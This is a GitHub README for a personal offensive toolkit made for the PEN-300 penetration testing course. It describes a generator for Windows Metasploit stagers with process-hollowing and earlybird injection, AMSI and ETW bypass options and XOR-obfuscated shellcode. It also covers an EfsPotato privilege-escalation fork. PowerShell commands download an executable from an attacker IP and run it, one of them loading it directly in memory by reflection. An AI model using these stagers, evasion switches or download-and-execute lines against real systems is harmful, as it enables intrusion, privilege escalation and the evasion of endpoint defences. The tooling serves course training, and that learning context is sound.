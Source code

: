 # Tools for my PEN-300 course

* Update `LHOST` and `LPORT` in `ak.py` to your MSF (or other C2) listening IP and port before crafting any tools.
* By default, staged payloads will pull from the following URL `http://(LHOST)/sc`.
* Stageless payloads will automatically apply an XOR encryption to obfuscate the shellcode.

## MSF Stager

```
usage: generate_win_msf_stager.py [-h]
                                  [--injection {hollow,interprocess,earlybird,standard}]
                                  [--format {exe,dll}]
                                  [--heuristics | --no-heuristics]
                                  [--amsi | --no-amsi] [--etw | --no-etw]
                                  [--stageless | --no-stageless]

optional arguments:
  -h, --help            show this help message and exit
  --injection {hollow,interprocess,earlybird,standard}, -i {hollow,interprocess,earlybird,standard}
  --format {exe,dll}, -f {exe,dll}
  --heuristics, --no-heuristics
  --amsi, --no-amsi
  --etw, --no-etw
  --stageless, --no-stageless
```

## Examples

```sh
# Create a dll that will use hollowing to load shellcode
python3 generate_win_msf_stager.py --injection hollow --format dll

# Create a stageless exe that will load and run shellcode within the same process
python3 generate_win_msf_stager.py --stageless --format exe
```

## EFSPotato Local Priv Escalation
The first argument passed to EfsPotato is ignored. It's normally used to specify a command to run, 
but this fork creates an svchost process and uses process hollowing to inject shellcode into the created
process.

The code is forked from https://github.com/zcgonvh/EfsPotato

### Standard Execution
```powershell
wget http://10.10.14.110/EfsPotato.exe -o C:\windows\tasks\EfsPotato.exe
C:\windows\tasks\EfsPotato.exe foo
```

### Using Assembly Reflection
```powershell
$u="http://10.10.14.110/EfsPotato.exe"
$b=(New-object system.net.webclient).DownloadData($u)
$a=[System.Reflection.Assembly]::Load($b)
[EfsPotato.Program]::Main("foo")
```
